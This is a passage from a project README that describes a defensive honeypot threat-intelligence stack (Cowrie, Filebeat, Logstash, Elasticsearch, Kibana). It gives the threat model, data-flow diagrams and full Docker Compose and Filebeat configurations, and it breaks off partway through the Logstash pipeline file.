

==============================================================================
 THREAT INTELLIGENCE DASHBOARD - GITHUB REPORT
 Honeypot-driven threat intelligence: Cowrie -> Filebeat -> Logstash -> Elasticsearch -> Kibana
 Built 2026-11-13
 Step-by-step process, complete source code and data-flow diagrams
==============================================================================

This file is the long-form README of the repository: how the system was
designed, how every component works, the complete code of each component, and
the diagrams. Run instructions are in HOW_TO_RUN.txt; the illustrated analysis
is in the PDF report.

CONTENTS
--------
  0. Repository layout
  1. Project summary
  2. Step 1 - Requirements and threat model
  3. Module 1 - System architecture and data flow
  4. Module 2 - Honeypot and log collection
  5. Module 3 - Enrichment pipeline (Logstash and threat feeds)
  6. Storage, retention and access control
  7. Module 4 - Kibana dashboard and visualisation design
  8. Module 5 - Automated threat-intelligence reporting
  9. Alerting with ElastAlert 2
  10. Windows packaging and compatibility
  11. Testing and validation
  12. Security review
  13. Module 6 - Key learnings and portfolio highlights
  14. Limitations and next steps
  15. Publishing this project on GitHub
  Appendix A. Remaining source files (complete)

==============================================================================
0. Repository layout
==============================================================================

Threat Intelligence Dashboard/
|-- .env.example                    # settings template
|-- GITHUB_REPORT.txt               # this report
|-- HOW_TO_RUN.txt                  # run instructions
|-- Threat_Intelligence_Dashboard_Project_Report.pdf
|-- docker-compose.yml              # 10-service stack
|-- docs/                           # document builder + sample report
|   |-- build_docs.py
|   |-- report_content.py
|   |-- sample_report/blocklist_ips_SAMPLE.txt
|   |-- sample_report/iocs_SAMPLE.csv
|   |-- sample_report/threat_report_SAMPLE.html
|   |-- sample_report/threat_report_SAMPLE.json
|   |-- sample_report/threat_report_SAMPLE.md
|   `-- sample_report/threat_report_SAMPLE.pdf
|-- elastalert/                     # alert rules
|   |-- config.yaml.template
|   |-- rules/bruteforce_spike.yaml
|   |-- rules/critical_risk_event.yaml
|   |-- rules/login_success_malicious_ip.yaml
|   `-- rules/malware_download.yaml
|-- elasticsearch/                  # index template + ILM
|   `-- index-template.json
|-- filebeat/                       # log shipper config
|   `-- filebeat.yml
|-- kibana/                         # KQL filters + DSL queries
|   |-- dsl/01_critical_events_24h.json
|   |-- dsl/02_bruteforce_then_success.json
|   |-- dsl/03_top_malicious_asns.json
|   |-- dsl/04_attack_velocity.json
|   |-- dsl/05_rare_commands.json
|   |-- dsl/06_malicious_ips_ioc_feed.json
|   `-- kql_filters.txt
|-- live-test.bat                   # prove honeypot capture
|-- logs.bat                        # service logs
|-- logstash/                       # pipeline + Ruby enrichment library
|   |-- config/logstash.yml
|   |-- pipeline/logstash.conf
|   `-- ruby/ti_lib.rb
|-- report.bat                      # generate report now
|-- reports/                        # generated reports land here
|-- reset.bat                       # delete collected data
|-- scripts/                        # PowerShell + setup.sh
|   |-- live-test.ps1
|   |-- report.ps1
|   |-- setup.ps1
|   |-- setup.sh
|   |-- simulate.ps1
|   |-- start.ps1
|   `-- status.ps1
|-- simulate.bat                    # load demo attack data
|-- start.bat                       # start / update everything (Windows)
|-- status.bat                      # health + event count
|-- stop.bat                        # stop containers, keep data
|-- tests/                          # automated tests
|   |-- test_project.py
|   |-- test_report.py
|   `-- test_ti_lib.rb
`-- tools/                          # Python tools (init, simulate, report, dashboards)
    |-- Dockerfile
    |-- generate_report.py
    |-- init_stack.py
    |-- kibana_objects.py
    |-- requirements.txt
    `-- simulate_attacks.py

==============================================================================
1. Project summary
==============================================================================

This project is an end-to-end Threat Intelligence Dashboard. A Cowrie honeypot
attracts SSH/Telnet attackers; every login attempt, shell command and malware
download is shipped by Filebeat to Logstash, enriched with GeoIP/ASN data and
with reputation data from AbuseIPDB, AlienVault OTX and VirusTotal, scored for
risk, stored in Elasticsearch, shown on a Kibana dashboard, watched by
ElastAlert 2 and summarised every day in an automatically generated
PDF/HTML/Markdown report with an IOC export and an IP blocklist.

+----------------+-----------------------------------------------------------+
| Item           | Detail                                                    |
+================+===========================================================+
| Honeypot       | Cowrie (medium-interaction SSH/Telnet), Docker image      |
|                | cowrie/cowrie                                             |
+----------------+-----------------------------------------------------------+
| Pipeline       | Filebeat 8.15.3 -> Logstash 8.15.3 (ECS-style fields,     |
|                | MITRE ATT&CK tags, GeoLite2, 3 TI APIs)                   |
+----------------+-----------------------------------------------------------+
| Storage / UI   | Elasticsearch 8.15.3 (security on, ILM retention) +       |
|                | Kibana 8.15.3 (23 panels, 3 saved searches)               |
+----------------+-----------------------------------------------------------+
| Automation     | Python 3.12 report generator (elasticsearch client +      |
|                | reportlab), ElastAlert 2.20.0 (4 rules)                   |
+----------------+-----------------------------------------------------------+
| Packaging      | docker-compose.yml, 10 services; Windows launchers (.bat  |
|                | + PowerShell 5.1); Linux setup.sh                         |
+----------------+-----------------------------------------------------------+
| Runs on        | Windows 10 22H2 / Windows 11 via Docker Desktop (WSL 2);  |
|                | any other Windows via a Linux host + browser              |
+----------------+-----------------------------------------------------------+
| Quality gates  | 57 Python + 16 Ruby automated tests, compose schema       |
|                | validation, end-to-end enrichment run                     |
+----------------+-----------------------------------------------------------+

  | NOTE: Honesty note. The build environment had no Docker daemon, so the
  | containers were not started together there; everything that can be
  | verified without containers was (see the Testing section). The first
  | start.bat on a real PC is the first full end-to-end run.

==============================================================================
2. Step 1 - Requirements and threat model
==============================================================================

Goal. Capture malicious IP addresses and attacker behaviour, enrich them,
visualise patterns in near real time and automate threat-intelligence
reporting.

Why a honeypot. A honeypot has no legitimate users, so every interaction is
suspicious by definition. That gives high-fidelity indicators (low false-
positive rate) and unique first-party data: the credentials attackers try, the
commands they run and the malware they download.

Design requirements derived from the brief

  * Capture: SSH and Telnet attacks with full session detail (Cowrie JSON
    log).
  * Enrich: GeoIP (lat/lon, country, ASN) and reputation (abuse score, threat
    tags, detections).
  * Visualise: attack origins, top ASNs/IPs, timeline/velocity,
    ports/protocols, credentials, commands.
  * Automate: scheduled 24-hour report with top IOCs; alerts on high-severity
    activity.
  * Secure: API keys only via environment, honeypot network isolated, least-
    privilege access, no secrets in files.
  * Run on Windows: one double-click start, no Python/Ruby/Git needed on the
    host.

Threat model for the platform itself (the honeypot is intentionally
attackable, so the rest must be safe if it is compromised)

+----------------------------+-----------------------------------------------+
| Threat                     | Mitigation in this project                    |
+============================+===============================================+
| Attacker escapes the       | cap_drop ALL, no-new-privileges,              |
| honeypot container         | memory/PID/CPU limits, no host folder mounts  |
+----------------------------+-----------------------------------------------+
| Attacker pivots to         | Honeypot sits alone on honeypot_net; ELK is   |
| Elasticsearch / Kibana     | on a different network; logs cross only       |
|                            | through a read-only volume                    |
+----------------------------+-----------------------------------------------+
| Log injection (attacker-   | Fields stored as keywords/text, never         |
| controlled strings reach   | executed; HTML and PDF renderers escape all   |
| the dashboard/report)      | values (tested)                               |
+----------------------------+-----------------------------------------------+
| API keys leak              | Keys only in .env / container environment;    |
|                            | never in config files; .env is git-ignored;   |
|                            | test scans for hard-coded secrets             |
+----------------------------+-----------------------------------------------+
| Free-tier API quotas       | 24 h cache + hard daily and per-minute        |
| exhausted or abused        | budgets per provider, enforced in Logstash    |
+----------------------------+-----------------------------------------------+
| Real attackers' data sent  | Only public IPs and file HASHES are looked    |
| to third parties           | up; simulated and private IPs never leave;    |
|                            | the malware file itself is never uploaded     |
+----------------------------+-----------------------------------------------+
| Services exposed to the    | Elasticsearch and Kibana bind 127.0.0.1 only; |
| internet                   | Logstash publishes no port                    |
+----------------------------+-----------------------------------------------+

==============================================================================
3. Module 1 - System architecture and data flow
==============================================================================

The system has two network zones. Zone 1 contains only the honeypot. Zone 2
contains the analytics stack. The only bridge is a Docker volume holding the
honeypot's JSON log, mounted read-only into Filebeat.

                    INTERNET  (attackers, scanners, botnets)
                                      |
                     SSH :22 -> host :2222   Telnet :23 -> host :2223
                                      |
 +------------------------------------v------------------------------------+
 | ZONE 1   honeypot_net   (isolated Docker network - nothing else joins)   |
 |                                                                          |
 |   +------------------------------------------------------------------+   |
 |   | COWRIE honeypot  (fake SSH/Telnet shell + fake file system)      |   |
 |   | cap_drop=ALL  no-new-privileges  512 MB  256 PIDs  no host mounts|   |
 |   +----------------------------------+-------------------------------+   |
 +--------------------------------------|-----------------------------------+
                                        |  writes cowrie.json (one JSON/line)
                        [ named volume  cowrie-logs ]
                        mounted READ-ONLY into Filebeat - no network path
 +--------------------------------------|-----------------------------------+
 | ZONE 2   elk_net   (private; only 127.0.0.1 ports are published)        |
 |                                      v                                   |
 |   FILEBEAT --- tcp 5044 ---> LOGSTASH                                    |
 |                               1 parse  (NDJSON -> [cw])                  |
 |                               2 normalise to ECS names, ATT&CK tags      |
 |                               3 GeoIP + ASN  (MaxMind GeoLite2)          |
 |                               4 threat intel:  cache -> quota gate ->    |
 |                                  HTTPS --------> AbuseIPDB / OTX /       |
 |                                  merge  <------- VirusTotal              |
 |                               5 risk score + verdict                     |
 |                                      |                                   |
 |                                      v                                   |
 |                         ELASTICSEARCH  honeypot-cowrie-YYYY.MM.dd        |
 |                         (security on, 3 least-privilege users, ILM 30 d) |
 |                          |              |                  |             |
 |                          v              v                  v             |
 |                       KIBANA        ELASTALERT 2       REPORTER          |
 |                    dashboard,      4 alert rules    daily PDF/HTML/MD,   |
 |                    Discover        (near real       IOC CSV, IP blocklist|
 |                    127.0.0.1:5601   time)                                |
 +--------------------------------------------------------------------------+

Mermaid version (renders automatically on GitHub when pasted into a Markdown
file):

Event lifecycle. The next diagram follows a single login event through every
stage and shows how the document changes.

 One event, end to end  (illustrative values)

 [1] ATTACKER           ssh root@honeypot      password: 123456
          |
 [2] COWRIE writes      {"eventid":"cowrie.login.success","src_ip":"203.0.113.45",
          |              "username":"root","password":"123456","session":"a1b2..",
          |              "timestamp":"2026-11-12T08:15:42.118Z","sensor":"srv-db-04"}
          |
 [3] FILEBEAT           ndjson parser: decoded JSON is stored under [cw]
          |              (keeps Cowrie's "input"/"message" away from Beats metadata)
          |
 [4] LOGSTASH           a. drop lines without src_ip; fingerprint -> document _id
          |              b. @timestamp := cw.timestamp
          |              c. rename to ECS-style: source.ip, event.action, cowrie.*
          |              d. MITRE ATT&CK: login.success -> T1078 Valid Accounts
          |              e. GeoIP + ASN  -> source.geo.*, source.as.*
          |              f. TI: classify IP (public? simulated?) -> cache -> quota
          |                    -> AbuseIPDB / OTX / VirusTotal -> merge -> ti.*
          |              g. risk: round(0.6 * severity + 0.4 * ti.score)
          |
 [5] ELASTICSEARCH      index honeypot-cowrie-2026.11.12  (idempotent _id)
          |
          +--> KIBANA      panels refresh every 30 s
          +--> ELASTALERT  rule "login from malicious IP" fires
          +--> REPORTER    07:00 daily: aggregations -> PDF/HTML/MD + IOC CSV

 Resulting document (abridged, ILLUSTRATIVE values):
 {
   "@timestamp": "2026-11-12T08:15:42.118Z",
   "event":  {"action": "cowrie.login.success", "outcome": "success",
              "severity": 60, "risk_score": 74, "risk_level": "high"},
   "source": {"ip": "203.0.113.45", "port": 51522,
              "geo": {"country_name": "Brazil", "location": {"lat": -23.5, "lon": -46.6}},
              "as":  {"number": 64500, "organization": {"name": "Example Telecom SA"}}},
   "cowrie": {"username": "root", "password": "123456", "credential": "root:123456"},
   "threat": {"technique": {"id": "T1078", "name": "Valid Accounts"}},
   "ti":     {"verdict": "malicious", "score": 95, "providers": ["abuseipdb", "otx"],
              "abuseipdb": {"confidence_score": 95, "total_reports": 214},
              "otx": {"pulse_count": 6, "tags": ["ssh-bruteforce", "botnet"]}}
 }
 risk = round(0.6 * 60 + 0.4 * 95) = round(36 + 38) = 74  ->  level "high" (>= 60)

==============================================================================
4. Module 2 - Honeypot and log collection
==============================================================================

Step 2.1 - Deploy Cowrie. The container publishes two unprivileged host ports
(2222 SSH, 2223 Telnet; forward 22/23 to them on a VPS). Only named volumes
are mounted: one for logs, one for captured malware samples.

------------------------------------------------------------------------------
FILE: docker-compose.yml   (244 lines)
------------------------------------------------------------------------------
# =============================================================================
#  Threat Intelligence Dashboard - full stack
#
#  Networks
#    honeypot_net  Cowrie ONLY. No other container is attached to it.
#    elk_net       Elasticsearch, Logstash, Kibana, Filebeat, ElastAlert2, tools.
#  The ONLY thing shared between the two zones is the `cowrie-logs` volume, which
#  Filebeat mounts READ-ONLY. A compromised honeypot has no network path to ELK.
#
#  Start:  start.bat        Stop: stop.bat        (see HOW_TO_RUN.txt)
# =============================================================================
name: threat-intel-dashboard

x-logging: &default-logging
  driver: json-file
  options:
    max-size: "10m"
    max-file: "3"

# Shared definition for every Python helper (init, simulator, reports, scheduler).
x-tools: &tools
  build:
    context: ./tools
  image: ti-tools:local
  user: "0"                       # must be able to write the shared log volume / ./reports
  networks: [elk_net]
  logging: *default-logging
  environment:
    ES_URL: http://elasticsearch:9200
    KIBANA_URL: http://kibana:5601
    ELASTIC_PASSWORD: ${ELASTIC_PASSWORD:?Run start.bat once - it creates .env with generated secrets}
    KIBANA_SYSTEM_PASSWORD: ${KIBANA_SYSTEM_PASSWORD:?missing}
    LOGSTASH_WRITER_PASSWORD: ${LOGSTASH_WRITER_PASSWORD:?missing}
    TI_READER_PASSWORD: ${TI_READER_PASSWORD:?missing}
    ELASTALERT_PASSWORD: ${ELASTALERT_PASSWORD:?missing}
    RETENTION_DAYS: ${RETENTION_DAYS:-30}
    ES_USER: ti_reader
    ES_PASSWORD: ${TI_READER_PASSWORD:?missing}
    REPORT_TZ: ${REPORT_TZ:-UTC}
    REPORT_DAILY_AT: ${REPORT_DAILY_AT:-07:00}
    PYTHONUNBUFFERED: "1"

services:
  # ---------------------------------------------------------------- honeypot
  cowrie:
    image: cowrie/cowrie:latest   # pin to a digest for production deployments
    container_name: ti-cowrie
    restart: unless-stopped
    environment:
      COWRIE_TELNET_ENABLED: "yes"
      COWRIE_HONEYPOT_HOSTNAME: ${COWRIE_HOSTNAME:-srv-db-04}
    ports:
      - "${COWRIE_SSH_PORT:-2222}:2222"      # fake SSH  (attackers connect here)
      - "${COWRIE_TELNET_PORT:-2223}:2223"   # fake Telnet
    volumes:
      - cowrie-logs:/cowrie/cowrie-git/var/log/cowrie
      - cowrie-downloads:/cowrie/cowrie-git/var/lib/cowrie/downloads
    networks: [honeypot_net]
    cap_drop: [ALL]
    security_opt: ["no-new-privileges:true"]
    pids_limit: 256
    mem_limit: 512m
    cpus: 1.0
    logging: *default-logging

  # ------------------------------------------------------------ log shipping
  filebeat:
    image: docker.elastic.co/beats/filebeat:${STACK_VERSION:-8.15.3}
    container_name: ti-filebeat
    restart: unless-stopped
    user: root
    command: ["filebeat", "-e", "--strict.perms=false"]   # Windows bind-mounts report 0777 perms
    volumes:
      - ./filebeat/filebeat.yml:/usr/share/filebeat/filebeat.yml:ro
      - cowrie-logs:/cowrie-logs:ro
      - filebeat-data:/usr/share/filebeat/data
    depends_on: [logstash]
    networks: [elk_net]
    mem_limit: 256m
    logging: *default-logging

  # ------------------------------------------------------------- enrichment
  logstash:
    image: docker.elastic.co/logstash/logstash:${STACK_VERSION:-8.15.3}
    container_name: ti-logstash
    restart: unless-stopped
    depends_on:
      es-init:
        condition: service_completed_successfully
    environment:
      LS_JAVA_OPTS: "-Xms768m -Xmx768m"
      LOGSTASH_WRITER_PASSWORD: ${LOGSTASH_WRITER_PASSWORD:?missing}
      ABUSEIPDB_API_KEY: ${ABUSEIPDB_API_KEY:-}
      OTX_API_KEY: ${OTX_API_KEY:-}
      VT_API_KEY: ${VT_API_KEY:-}
      ABUSEIPDB_DAILY_LIMIT: ${ABUSEIPDB_DAILY_LIMIT:-900}
      OTX_DAILY_LIMIT: ${OTX_DAILY_LIMIT:-2000}
      OTX_PER_MINUTE: ${OTX_PER_MINUTE:-30}
      VT_DAILY_LIMIT: ${VT_DAILY_LIMIT:-450}
      VT_PER_MINUTE: ${VT_PER_MINUTE:-4}
      VT_MIN_ABUSE_SCORE: ${VT_MIN_ABUSE_SCORE:-25}
      TI_CACHE_TTL_HOURS: ${TI_CACHE_TTL_HOURS:-24}
      DEBUG_STDOUT: ${DEBUG_STDOUT:-false}
    volumes:
      - ./logstash/config/logstash.yml:/usr/share/logstash/config/logstash.yml:ro
      - ./logstash/pipeline:/usr/share/logstash/pipeline:ro
      - ./logstash/ruby:/usr/share/logstash/ruby:ro
      - logstash-data:/usr/share/logstash/data
    expose: ["5044"]                 # internal only - never published to the host
    networks: [elk_net]
    mem_limit: 1536m
    logging: *default-logging

  # ------------------------------------------------------ storage + dashboards
  elasticsearch:
    image: docker.elastic.co/elasticsearch/elasticsearch:${STACK_VERSION:-8.15.3}
    container_name: ti-elasticsearch
    restart: unless-stopped
    environment:
      node.name: es01
      cluster.name: ti-cluster
      discovery.type: single-node
      ELASTIC_PASSWORD: ${ELASTIC_PASSWORD:?missing}
      xpack.security.enabled: "true"
      xpack.security.http.ssl.enabled: "false"   # plain HTTP, but only on the private elk_net + 127.0.0.1
      xpack.ml.enabled: "false"
      ES_JAVA_OPTS: "-Xms1g -Xmx1g"
    ulimits:
      nofile: { soft: 65535, hard: 65535 }
    volumes:
      - esdata:/usr/share/elasticsearch/data
    ports:
      - "127.0.0.1:9200:9200"        # localhost only
    networks: [elk_net]
    mem_limit: 2g
    healthcheck:
      test: ["CMD-SHELL", "curl -s -u elastic:$${ELASTIC_PASSWORD} http://localhost:9200/_cluster/health | grep -qE '\"status\":\"(green|yellow)\"'"]
      interval: 10s
      timeout: 10s
      retries: 40
      start_period: 40s
    logging: *default-logging

  es-init:                           # one-shot: users, roles, ILM policy, index template
    <<: *tools
    container_name: ti-es-init
    command: ["python", "init_stack.py", "elasticsearch"]
    volumes:
      - ./elasticsearch:/config:ro
    depends_on:
      elasticsearch:
        condition: service_healthy
    restart: "no"

  kibana:
    image: docker.elastic.co/kibana/kibana:${STACK_VERSION:-8.15.3}
    container_name: ti-kibana
    restart: unless-stopped
    depends_on:
      es-init:
        condition: service_completed_successfully
    environment:
      SERVERNAME: kibana
      ELASTICSEARCH_HOSTS: http://elasticsearch:9200
      ELASTICSEARCH_USERNAME: kibana_system
      ELASTICSEARCH_PASSWORD: ${KIBANA_SYSTEM_PASSWORD:?missing}
      XPACK_SECURITY_ENCRYPTIONKEY: ${KIBANA_SECURITY_KEY:?missing}
      XPACK_ENCRYPTEDSAVEDOBJECTS_ENCRYPTIONKEY: ${KIBANA_ENCRYPTION_KEY:?missing}
      XPACK_REPORTING_ENCRYPTIONKEY: ${KIBANA_REPORTING_KEY:?missing}
      TELEMETRY_OPTIN: "false"
    ports:
      - "127.0.0.1:5601:5601"        # localhost only
    networks: [elk_net]
    mem_limit: 3g
    healthcheck:
      test: ["CMD-SHELL", "curl -s http://localhost:5601/api/status | grep -q '\"level\":\"available\"'"]
      interval: 10s
      timeout: 10s
      retries: 60
      start_period: 60s
    logging: *default-logging

  kibana-init:                       # one-shot: data view, saved searches, visualisations, dashboard
    <<: *tools
    container_name: ti-kibana-init
    command: ["python", "init_stack.py", "kibana"]
    depends_on:
      kibana:
        condition: service_healthy
    restart: "no"

  # --------------------------------------------------------------- alerting
  elastalert:
    image: jertel/elastalert2:2.20.0
    container_name: ti-elastalert
    restart: unless-stopped
    depends_on:
      es-init:
        condition: service_completed_successfully
    entrypoint: ["/bin/sh", "-c"]
    command:
      - "elastalert-create-index --config /opt/elastalert/config.yaml || true; exec elastalert --config /opt/elastalert/config.yaml --verbose"
    volumes:
      - ./elastalert/config.yaml:/opt/elastalert/config.yaml:ro     # generated by scripts\setup.ps1
      - ./elastalert/rules:/opt/elastalert/rules:ro
    networks: [elk_net]
    mem_limit: 512m
    logging: *default-logging

  # ---------------------------------------- scheduled daily threat-intel report
  reporter:
    <<: *tools
    container_name: ti-reporter
    command: ["python", "generate_report.py", "--daily-at", "${REPORT_DAILY_AT:-07:00}", "--out", "/reports"]
    volumes:
      - ./reports:/reports
    depends_on:
      es-init:
        condition: service_completed_successfully
    restart: unless-stopped

  # ------------------------------------------- on-demand helpers (profile: tools)
  # docker compose --profile tools run --rm tools python simulate_attacks.py ...
  tools:
    <<: *tools
    container_name: ti-tools
    profiles: ["tools"]
    command: ["python", "generate_report.py", "--help"]
    volumes:
      - ./reports:/reports
      - cowrie-logs:/cowrie-logs

networks:
  honeypot_net:
    driver: bridge
  elk_net:
    driver: bridge

volumes:
  esdata:
  logstash-data:
  filebeat-data:
  cowrie-logs:
  cowrie-downloads:
------------------------------------------------------------------------------
END OF FILE: docker-compose.yml
------------------------------------------------------------------------------

Step 2.2 - Ship logs with Filebeat. Filebeat tails the Cowrie JSON file (and
the simulator's file), decodes each line as JSON into a sub-object `[cw]` and
sends it to Logstash. Decoding into a sub-object is deliberate: Cowrie emits
keys named `input` and `message`, which would collide with Filebeat's own
metadata if decoded at the event root.

------------------------------------------------------------------------------
FILE: filebeat/filebeat.yml   (29 lines)
------------------------------------------------------------------------------
# Filebeat: tail Cowrie's JSON log (read-only shared volume) -> Logstash.
# Cowrie and the ELK stack share NO network - only this one-way log volume.
filebeat.inputs:
  - type: filestream
    id: cowrie-json
    enabled: true
    paths:
      - /cowrie-logs/cowrie.json*
      - /cowrie-logs/simulated.json*
    # Small log files must be shipped immediately: the default fingerprint identity
    # waits until a file is >= 1024 bytes, which would delay the first events.
    prospector.scanner.fingerprint.enabled: false
    file_identity.native: ~
    parsers:
      - ndjson:
          target: "cw"          # decode into [cw] so Cowrie keys never clash with Filebeat metadata
          add_error_key: true

output.logstash:
  hosts: ["logstash:5044"]

processors:
  - drop_fields:
      fields: ["agent.ephemeral_id", "agent.id", "agent.name", "agent.version", "ecs.version"]
      ignore_missing: true

logging.level: warning
logging.to_files: false
http.enabled: false
------------------------------------------------------------------------------
END OF FILE: filebeat/filebeat.yml
------------------------------------------------------------------------------

Windows detail: bind-mounted config files show permissive modes inside the
container, so Filebeat is started with `--strict.perms=false`; all state lives
in named volumes (no Windows path or permission problems).

==============================================================================
5. Module 3 - Enrichment pipeline (Logstash and threat feeds)
==============================================================================

The pipeline (`logstash/pipeline/logstash.conf`) is a single file with seven
numbered stages; the enrichment helpers live in `logstash/ruby/ti_lib.rb` so
they can be unit-tested outside Logstash.

+------------+------------------------------------+--------------------------+
| Stage      | What happens                       | Why                      |
+============+====================================+==========================+
| 1 Parse    | drop lines without src_ip;         | Re-sent lines overwrite  |
|            | fingerprint -> deterministic       | instead of duplicating   |
|            | document _id                       |                          |
+------------+------------------------------------+--------------------------+
| 2          | rename Cowrie keys to ECS-style    | Consistent fields for    |
| Normalise  | names; build cowrie.credential;    | dashboards and queries   |
|            | outcome                            |                          |
+------------+------------------------------------+--------------------------+
| 3 ATT&CK   | T1110, T1078, T1059.004, T1105,    | Behaviour context for    |
|            | T1496, T1098.004, T1053.003,       | analysts and reports     |
|            | T1082, T1090                       |                          |
+------------+------------------------------------+--------------------------+
| 4 GeoIP /  | two geoip filters (City, ASN) ->   | Map, country and ASN     |
| ASN        | source.geo.*, source.as.*          | panels; block-by-network |
|            |                                    | decisions                |
+------------+------------------------------------+--------------------------+
| 5 Threat   | classify -> cache -> quota gate -> | Reputation without       |
| intel      | HTTP -> merge                      | exhausting free API      |
|            |                                    | tiers                    |
+------------+------------------------------------+--------------------------+
| 6 Risk     | severity table + TI score ->       | One number to sort,      |
|            | event.risk_score / risk_level      | alert and report on      |
+------------+------------------------------------+--------------------------+
| 7 Clean-up | remove transport noise (cw, agent, | Smaller, cleaner         |
|            | ecs, input, host)                  | documents                |
+------------+------------------------------------+--------------------------+

 Threat-intelligence step inside Logstash (per event)

   source.ip
      |
      v
   TI.classify ----- private / reserved / loopback ----> mode "skip"  (ti.verdict = not_applicable)
      |
      +------------- simulated traffic --------------> mode "demo"  (deterministic synthetic scores,
      |                                                              labelled provider demo-synthetic,
      |                                                              NOTHING leaves the machine)
      v  public IP
   TI.cache_get --- hit (< 24 h old) ------------------> copy stored ti.* onto the event   [no API call]
      |
      v  miss
   TI.budget('abuse')   key set?  daily budget left?   -> http filter -> AbuseIPDB
   TI.budget('otx')     key set?  daily + per-minute?  -> http filter -> AlienVault OTX
   TI.budget('vt')      key set?  AbuseIPDB score >= 25 (or no AbuseIPDB)?  4/min, 450/day
      |                                               -> http filter -> VirusTotal
      v
   TI.merge ---- parse bodies (Hash or raw JSON string), score = max of signals,
                 verdict, benign-scanner override, store in cache
                 (failures are cached for 10 min as "unknown" - no hammering, no lost events)

Step 3.1 - GeoIP and ASN. Logstash's geoip filter uses MaxMind GeoLite2
databases that Logstash downloads and refreshes itself, so no licence key is
needed. The City database gives latitude/longitude, country and city; the ASN
database gives the autonomous system number and organisation. Private
addresses are skipped.

Step 3.2 - Threat feeds through the `http` filter. AbuseIPDB (abuse confidence
0-100, report count, usage type, ISP, Tor flag), AlienVault OTX (pulse count,
threat tags, malware families) and VirusTotal (engine detections for the IP
and for malware SHA-256 hashes). Keys are read from environment variables; a
missing key simply disables that provider.

------------------------------------------------------------------------------
FILE: logstash/pipeline/logstash.conf   (287 lines)
------------------------------------------------------------------------------
# =============================================================================
#  logstash.conf  -  Cowrie honeypot -> normalise -> GeoIP/ASN -> threat feeds
#                    -> risk scoring -> Elasticsearch
#
#  Secrets are NEVER written here: API keys / passwords come from environment
#  variables (docker-compose passes them from .env).  Missing API keys simply
#  disable that provider - the pipeline keeps working.
# =============================================================================

input {
  beats {
    port => 5044
  }
}

filter {

  # ---------------------------------------------------------------------------
  # 1. Parse: Filebeat decoded the Cowrie JSON line into the [cw] object
  #    (kept under [cw] so Cowrie's "input"/"message" keys cannot collide with
  #    Filebeat's own metadata fields).
  # ---------------------------------------------------------------------------
  if ![cw][src_ip] {
    drop { }                      # daemon/log-rotation lines without an attacker IP
  }
  mutate { remove_field => ["message"] }

  # Idempotent document id: if Filebeat re-sends a line, ES overwrites instead of duplicating.
  fingerprint {
    source => ["[cw][timestamp]", "[cw][session]", "[cw][eventid]", "[cw][src_ip]", "[cw][src_port]", "[cw][message]"]
    concatenate_sources => true
    method => "SHA256"
    target => "[@metadata][doc_id]"
  }

  # Traffic written by tools/simulate_attacks.py is flagged so it is never sent to
  # external threat-intel APIs and is clearly labelled in every dashboard.
  if [log][file][path] =~ /simulated\.json/ {
    mutate {
      add_field => { "[@metadata][simulated]" => "true" }
      add_tag   => ["simulated"]
    }
  }

  date {
    match  => ["[cw][timestamp]", "ISO8601"]
    target => "@timestamp"
    tag_on_failure => ["_dateparsefailure"]
  }

  # ---------------------------------------------------------------------------
  # 2. Normalise to ECS-style names (cowrie-specific data lives under [cowrie])
  # ---------------------------------------------------------------------------
  mutate {
    rename => {
      "[cw][src_ip]"          => "[source][ip]"
      "[cw][src_port]"        => "[source][port]"
      "[cw][dst_ip]"          => "[destination][ip]"
      "[cw][dst_port]"        => "[destination][port]"
      "[cw][eventid]"         => "[event][action]"
      "[cw][message]"         => "message"
      "[cw][sensor]"          => "[observer][name]"
      "[cw][protocol]"        => "[network][protocol]"
      "[cw][session]"         => "[cowrie][session]"
      "[cw][username]"        => "[cowrie][username]"
      "[cw][password]"        => "[cowrie][password]"
      "[cw][input]"           => "[cowrie][input]"
      "[cw][url]"             => "[cowrie][url]"
      "[cw][shasum]"          => "[cowrie][shasum]"
      "[cw][outfile]"         => "[cowrie][outfile]"
      "[cw][hassh]"           => "[cowrie][hassh]"
      "[cw][hasshAlgorithms]" => "[cowrie][hassh_algorithms]"
      "[cw][version]"         => "[cowrie][client_version]"
      "[cw][duration]"        => "[cowrie][duration]"
      "[cw][ttylog]"          => "[cowrie][ttylog]"
      "[cw][arch]"            => "[cowrie][arch]"
      "[cw][size]"            => "[cowrie][size]"
    }
    convert => {
      "[source][port]"      => "integer"
      "[destination][port]" => "integer"
      "[cowrie][duration]"  => "float"
    }
    add_field => {
      "[event][dataset]"      => "cowrie"
      "[event][module]"       => "honeypot"
      "[observer][type]"      => "honeypot"
      "[network][transport]"  => "tcp"
    }
  }

  # username:password pair (for "most common credentials" visualisation)
  if [cowrie][username] and [event][action] =~ /^cowrie\.login\./ {
    mutate {
